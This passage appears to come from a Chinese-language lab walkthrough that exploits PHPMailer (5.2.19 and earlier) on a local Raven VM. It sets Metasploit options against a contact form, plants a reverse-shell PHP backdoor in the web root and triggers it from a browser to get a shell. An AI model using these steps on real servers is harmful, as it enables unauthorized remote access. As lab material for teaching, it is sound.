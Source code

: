 ```
search PHPmailer
```

![image-20220301161846807](https://gitee.com/xxb667/img/raw/master/img/image-20220301161846807.png)

使用info id查看漏洞的适用版本

发现第0个适用（适用于5.2.19及以下版本phpmailer）

```
info 0
```

![image-20220301162020929](https://gitee.com/xxb667/img/raw/master/img/image-20220301162020929.png)

## 3.2 MSF配置

1.配置信息

```
use 0
set RHOSTS 192.168.81.140
set TARGETURI /contact.php
set WEB_ROOT /var/www/html
```

运行

2.run，运行

- 运行后会在/var/www/html/路径
- 写入一个xxx.php文件
- 文件内容的作用是
  - 反弹shell
  - 文件名是随机的

![image-20220301162245206](https://gitee.com/xxb667/img/raw/master/img/image-20220301162245206.png)

![image-20220301163037304](https://gitee.com/xxb667/img/raw/master/img/image-20220301163037304.png)

访问

3.把文件名复制到浏览器进行访问

访问之后下面metasploit会有动态显示【连接、删除后门】

```
http://raven.local/ii3NsUVr.php
```

## 3.3 获得shell权限

4.等待几分钟就能得到shell，www权限

- 可以看到当前shell所在位置
- 是/var/www/html/，
- 并且此目录里面没有后门文件（已经自动删除）
